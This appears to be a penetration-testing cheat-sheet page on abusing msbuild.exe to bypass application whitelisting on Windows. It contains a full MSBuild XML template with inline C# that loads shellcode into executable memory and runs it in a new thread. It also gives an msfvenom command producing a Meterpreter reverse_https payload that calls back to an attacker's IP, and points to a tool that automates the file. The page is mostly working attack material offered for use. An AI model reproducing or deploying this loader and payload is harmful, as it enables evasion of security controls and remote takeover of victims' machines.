 ## Execute C\

### msbuild.exe

Use the following shell temlate and insert the csharp code and save as an xml

Replace “INSERT\_SHELLCODE\_HERE” in the template with the shellcode generated from Metasploit.

Note1: This includes "byte\[\] shellcode = new byte\[\]"

Note2: Use metasploit to generate C\# shellcode with the follow command: “msfvenom -a x86 –platform windows -p windows/meterpreter/reverse\_https LHOST=192.168.X.X LPORT=443 -f csharp”. Replace the value of LHOST with your own ip address.

```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
 <!-- This inline task executes shellcode. -->
 <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
 <!-- Save This File And Execute The Above Command -->
 <!-- Author: Casey Smith, Twitter: @subTee -->
 <!-- License: BSD 3-Clause -->
 <Target Name="Hello">
 <ClassExample />
 </Target>
 <UsingTask
 TaskName="ClassExample"
 TaskFactory="CodeTaskFactory"
 AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
 <Task>

 <Code Type="Class" Language="cs">
 <![CDATA[
 using System;
 using System.Runtime.InteropServices;
 using Microsoft.Build.Framework;
 using Microsoft.Build.Utilities;
 public class ClassExample : Task, ITask
 { 
 private static UInt32 MEM_COMMIT = 0x1000; 
 private static UInt32 PAGE_EXECUTE_READWRITE = 0x40; 
 [DllImport("kernel32")]
 private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
 UInt32 size, UInt32 flAllocationType, UInt32 flProtect); 
 [DllImport("kernel32")]
 private static extern IntPtr CreateThread( 
 UInt32 lpThreadAttributes,
 UInt32 dwStackSize,
 UInt32 lpStartAddress,
 IntPtr param,
 UInt32 dwCreationFlags,
 ref UInt32 lpThreadId 
 );
 [DllImport("kernel32")]
 private static extern UInt32 WaitForSingleObject( 
 IntPtr hHandle,
 UInt32 dwMilliseconds
 ); 
 public override bool Execute()
 {
 byte[] shellcode = new byte[] { INSERT_SHELLCODE_HERE } };

 UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
 MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
 IntPtr hThread = IntPtr.Zero;
 UInt32 threadId = 0;
 IntPtr pinfo = IntPtr.Zero;
 hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
 WaitForSingleObject(hThread, 0xFFFFFFFF);
 return true;
 } 
 } 
 ]]>
 </Code>
 </Task>
 </UsingTask>
 </Project>
```



[GreatSCT](https://github.com/ConsciousHacker/GreatSCT)--tool to automatically generate the xml file.

References:

[https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-msbuild-exe/](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-msbuild-exe/)

